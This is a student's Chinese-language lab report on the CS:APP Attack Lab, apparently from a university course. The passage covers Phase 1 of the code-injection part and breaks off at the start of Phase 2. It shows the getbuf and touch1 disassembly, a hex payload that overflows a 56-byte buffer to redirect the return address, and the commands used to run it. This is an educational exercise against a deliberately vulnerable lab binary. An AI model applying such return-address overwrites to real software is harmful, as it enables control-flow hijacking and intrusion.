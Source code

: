 ﻿
# Attack Lab实验报告

## 刘金成 2023302111097


## Part 1 CI攻击

### Phase 1

CTARGET中函数test调用了函数getbuf，test的代码如下：
```c
void  test() {
	int  val;
	val = getbuf();
	printf("No exploit.  Getbuf returned 0x%x\n", val);
}
```
我们的目的是使用缓冲区溢出攻击使得程序在执行`getbuf`后跳转到`touch1` 
```
00000000004017f1 <getbuf>:
  4017f1:       48 83 ec 38             sub    $0x38,%rsp
  4017f5:       48 89 e7                mov    %rsp,%rdi
  4017f8:       e8 2d 02 00 00          callq  401a2a <Gets>
  4017fd:       b8 01 00 00 00          mov    $0x1,%eax
  401802:       48 83 c4 38             add    $0x38,%rsp
  401806:       c3                      retq

0000000000401807 <touch1>:
  401807:       48 83 ec 08             sub    $0x8,%rsp
  40180b:       c7 05 e7 2c 20 00 01    movl   $0x1,0x202ce7(%rip)        # 6044fc <vlevel>
  401812:       00 00 00
  401815:       bf 31 2f 40 00          mov    $0x402f31,%edi
  40181a:       e8 31 f4 ff ff          callq  400c50 <puts@plt>
  40181f:       bf 01 00 00 00          mov    $0x1,%edi
  401824:       e8 f0 03 00 00          callq  401c19 <validate>
  401829:       bf 00 00 00 00          mov    $0x0,%edi
  40182e:       e8 ad f5 ff ff          callq  400de0 <exit@plt>
```

因为`getbuf`使用`get`函数读取数据，所以需要用`touch1`的地址（`0x401807`）覆盖掉它的返回地址

`getbuf`开辟的栈空间大小为56字节，先输入56个字节大小的垃圾数据再输入`touch1`的地址（小端法）
```
(a1.txt)
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
07 18 40 00
```
用`hex2raw`转成字符串（使用方法在官方教程里），运行通过
```
root@ad79a1307964:~/Desktop/target232111097# ./hex2raw < a1.txt > a1_raw.txt
root@ad79a1307964:~/Desktop/target232111097# gdb ctarget

(gdb) run < a1_raw.txt
```
### Phase 2
在ctarget文件中，函数touch2的代码如下：